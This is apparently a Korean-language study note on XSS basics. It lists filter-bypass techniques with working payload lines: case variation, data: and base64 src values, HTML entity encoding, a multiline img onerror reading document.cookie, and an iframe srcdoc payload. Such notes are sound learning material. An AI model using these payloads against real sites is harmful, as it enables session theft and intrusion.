 ```yaml
---
title: "xss basic"
tags: ["basic theory", xss]
categories: [xss]
---
```


## **xss 기초**

xss의 핵심은 script를 삽입하여 이를 실행 가능한지 여부가 중요하다고 생각됩니다. HTML에서 script를 포함하기 위한 태그로는 기본적으로 \<script\> 태그만 알고 있었는데 이외에도 event handler를 사용하여도 가능하다는 것을 알 수 있었습니다.

### 여러 가지 우회 방법

> 잘못된 정규표현식

- 대소문자 구분이 있을 경우
```
script를 필터링 할 경우 Script, SCRIPT, ScRiPt와 같이 우회 가능
```

- script 태그 내에 데이터가 존재하는지 확인할 경우
```
src=data:,alert(document.cookie)와 같이 src 속성을 이용한 데이터 입력
```

- 특정 문자열을 필터링 할 경우
```
src=data:;base64,YWxlcnQgKGRvY3VtZW50LmNvb2tpZSk7와 같이 base64 encoding을 이용하여 우회 가능
혹은 &#114; 와 같이 중간에 html number entity encoding을 사용하여 우회 가능
```

- 멀티라인 검증이 없을 경우
```
<img src=""
onerror=alert(document.cookie) /> 와 같이 우회 가능
```

- iframe 사용 시 주의 사항

iframe을 사용하여 xss payload를 전달할 경우 해당 payload가 iframe 안에서 호출되기 때문에 상위 문서에 영향을 주기 위해서는 alert이 아닌 parent.alert을 사용하여야 합니다.
`<iframe srcdoc='<img src=about: o&#110;error=parent.alert(document.domain)>'></iframe>`
혹은 alert은 유지하고 parent.document.domain과 같은 방식을 사용하여도 동일합니다.


* * *


